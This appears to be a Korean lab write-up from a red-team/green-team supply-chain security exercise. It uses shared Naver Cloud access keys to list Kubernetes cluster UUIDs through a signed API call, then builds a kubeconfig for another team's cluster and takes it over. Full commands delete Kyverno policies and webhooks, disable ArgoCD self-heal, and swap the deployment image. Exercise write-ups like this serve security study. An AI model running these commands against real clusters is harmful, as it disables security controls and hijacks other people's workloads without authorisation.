

# 클러스터 UUID 탈취

## 목적

- ncloud의 Kubernetes 클러스터 UUID 탈취를 통한 kubeconfig 획득 및 클러스터 접근

## 배경

- 모든 팀의 k8s 클러스터가 하나의 ncloud 계정에 속함
- 클러스터 접속을 위해 `ncp-iam-authenticator` 도구 사용
- 해당 계정의 Access Key, Secret Key를 공유받음

## 과정

- 공유받은 Access Key를 통해 계정 내 모든 클러스터의 UUID를 조회할 수 있는지 확인
  - ncloud cli 사용 시도: k8s 관련 명령 미지원 → 조회 불가능
  - ncp-iam-authenticator 사용 시도: 클러스터 조회 기능 없음 → 조회 불가능
    - 해당 도구는 클러스터 접속을 위한 kubeconfig 생성 전용 도구
    - 이미 알고있는 클러스터 UUID로 kubeconfig 파일 생성
  - REST API 사용(curl 요청): Ncloud Kubernetes Service는 REST API를 제공하므로, 직접 API를 호출하여 조회 시도

    ```yaml
    #!/bin/bash
    
    # 1. API 인증키 설정
    ACCESS_KEY="YOUR_ACCESS_KEY"
    SECRET_KEY="YOUR_SECRET_KEY"
    
    # 2. 타임스탬프 생성
    TIMESTAMP=$(echo $(($(date +%s%N)/1000000)))
    
    # 3. 시그니처 생성
    METHOD="GET"
    URI="/vnks/v2/clusters"
    nl=$'\n'
    SIG="$METHOD $URI${nl}$TIMESTAMP${nl}$ACCESS_KEY"
    SIGNATURE=$(echo -n -e "$SIG" | openssl dgst -sha256 -hmac $SECRET_KEY -binary | openssl enc -base64)
    
    # 4. API 호출
    curl --location --request GET 'https://nks.apigw.ntruss.com/vnks/v2/clusters' \
      --header "x-ncp-apigw-timestamp: $TIMESTAMP" \
      --header "x-ncp-iam-access-key: $ACCESS_KEY" \
      --header "x-ncp-apigw-signature-v2: $SIGNATURE" \
      --header 'Content-Type: application/json'
    ```

- 클러스터 UUID 조회 성공
  - Access Key만으로 계정 내 모든 클러스터의 UUID, 이름, 상태, 엔드포인트 등 민감한 정보를 조회할 수 있음을 확인
- Access Key 유출 취약점
  - 공격자가 계정 내 모든 클러스터 정보 조회 가능
  - 조회한 UUID로 `ncp-iam-authenticator`를 통해 kubeconfig 생성 가능
  - 생성한 kubeconfig로 클러스터에 접속해 리소스 탈취, 변조 가능

## 공격 (공급망 공격이 아닌, 인프라 직접 공격이긴 함)



### 공격 과정

- 탈취한 UUID로 타겟 클러스터 접근

```powershell
ncp-iam-authenticator update-kubeconfig --clusterUuid e099d3b7-378f-4f79-8e69-0c737a2bf8a6
```

- 보안 정책(Kyverno) 무력화

```powershell
# Kyverno 정책 삭제
kubectl delete clusterpolicy verify-image-signature
kubectl delete clusterpolicy require-run-as-nonroot
kubectl delete clusterpolicy disallow-latest-tag

# Kyverno Webhook 비활성화
kubectl delete mutatingwebhookconfiguration kyverno-resource-mutating-webhook-cfg
kubectl delete validatingwebhookconfiguration kyverno-resource-validating-webhook-cfg
```

- ArgoCD selfHeal 비활성화

```powershell
kubectl patch application slsa-simulation-app -n argocd \
  --type=merge -p '{"spec":{"syncPolicy":{"automated":{"selfHeal":false}}}}'
```

- RED 팀 Deployment를 Green 이미지로 변경(ghcr.io/slsa-lab-green/application:sha-fd600872568804c1649672645cd1c74764c01f72)

```powershell
kubectl set image deployment/slsa-simulation-app \
  web=ghcr.io/slsa-lab-green/application:sha-fd600872568804c1649672645cd1c74764c01f72 \
  -n slsa-simulation
```

### 결론

- 클러스터 접근 권한이 필요하므로 사전 침투가 필요한 한계

---

10-23 04:15 복수


